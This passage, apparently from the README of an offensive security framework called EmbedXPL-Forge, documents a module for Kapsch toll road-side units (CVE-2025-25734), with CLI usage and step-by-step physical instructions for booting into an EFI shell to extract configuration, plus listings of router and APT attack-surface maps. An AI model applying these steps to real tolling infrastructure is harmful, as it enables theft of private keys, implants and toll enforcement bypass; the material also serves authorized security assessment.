- Supports 300+ camera vendors from the iSpy open camera database
- Use `set all_vendors true` to dump all known URLs

---

### Traffic Enforcement Security Modules

Modules targeting traffic enforcement infrastructure (toll RSUs, radar systems, ANPR cameras).

#### Kapsch TrafficCom RSU EFI Shell (CVE-2025-25734)

**Module:** `exploits/specialized/traffic_enforcement/kapsch_rsu_efi_shell_cve_2025_25734`

**Vulnerability:** Kapsch Road-Side Units (RSUs) used in electronic tolling lack UEFI Secure Boot enforcement and BIOS password protection, allowing physical attackers to drop into an EFI interactive shell and access the full filesystem.

**Impact:** Configuration extraction, TLS private key theft, implant installation, toll enforcement bypass.

**Usage example:**

```bash
# Network reachability check (management interface detection)
embedxpl use specialized/traffic_enforcement/kapsch_rsu_efi_shell_cve_2025_25734
embedxpl (KapschRSU) > set rhost 10.0.0.50
embedxpl (KapschRSU) > check

# Expected output (management interface exposed):
[+] Kapsch RSU management interface detected on 10.0.0.50:80
[!] Banner indicator: 'TrafficCom RSU' found
[*] NOTE: Full exploitation requires physical on-site access

# Assessment report
embedxpl (KapschRSU) > run
# Outputs: attack steps, mitigations checklist, risk level
```

**Physical exploitation steps:**
1. Open RSU enclosure (tamper-evident screws)
2. Connect USB keyboard and monitor to RSU mainboard
3. Power cycle - press ESC/DEL/F2 during POST
4. Navigate: Boot Manager -> EFI Internal Shell
5. Access filesystem: `fs0:\efi\config\` for configuration extraction

**Requirements:** Physical access to RSU hardware (monitor + USB keyboard), or network access to management interface for banner detection.
**Legal:** Unauthorized access to toll enforcement infrastructure is a criminal offense. Use only on units you own or have explicit written authorization to assess.

---

## Framework Architecture (v3.1.0)

### Component Architecture

Full layered view of the framework: CLI layer, Core Engine (orchestrator, protocol clients, shell engines), Intelligence Layer (ML, OUI, CVE DB), Quality Gates, and the 2800+ module arsenal organized by category.

<p align="center">
  
</p>

### Audit & Exploitation Flow

End-to-end data flow from target input through discovery, fingerprinting, module selection, exploitation, and reporting.

<p align="center">
  
</p>


## Architecture & Attack Surface Maps

Attack surface maps showing module coverage per access vector, in the style of operational security diagrams.
Source files in [`docs/diagrams/architecture/`](docs/diagrams/architecture/).

### Module Architecture Overview

<p align="center">
  
</p>

### APT Group Attack Chains

<p align="center">
  
</p>

### SOHO Router Attack Surface

<p align="center">
  
</p>

### TP-Link Attack Surface (APT28/GRU Campaign)

<p align="center">
  
</p>

### MikroTik RouterOS Attack Surface

<p align="center">
  
</p>

### GPON ONT Attack Surface (Huawei EG8145)

<p align="center">
  
</p>

## Requirements

- Python 3.8+
- Optional: `nmap` (binary) for enhanced network discovery and NSE scripts
- Optional: `masscan` for high-speed RTSP discovery
- Optional: `gcc`/`clang` for PolyExploit C/C++ runtime compilation
- Optional: `msfconsole` for Metasploit integration via PolyRunner

**Python dependencies (auto-installed):**
`requests`, `paramiko`, `pysnmp`, `pycryptodome`, `scapy`, `colorama`, `rich`, `python-nmap`, `aiohttp`

**NSE extras (`pip install "embedxpl[nse]"`):**
`python-nmap` (already included in core)

Full list: [`requirements.txt`](requirements.txt)

## Legal Disclaimer

EmbedXPL-Forge is intended for authorized security testing and research only. Use this tool exclusively on systems you own or have explicit written permission to test. Unauthorized access to computer systems is illegal. The authors assume no liability for misuse.

## License

BSD License — see [LICENSE](LICENSE) for details.
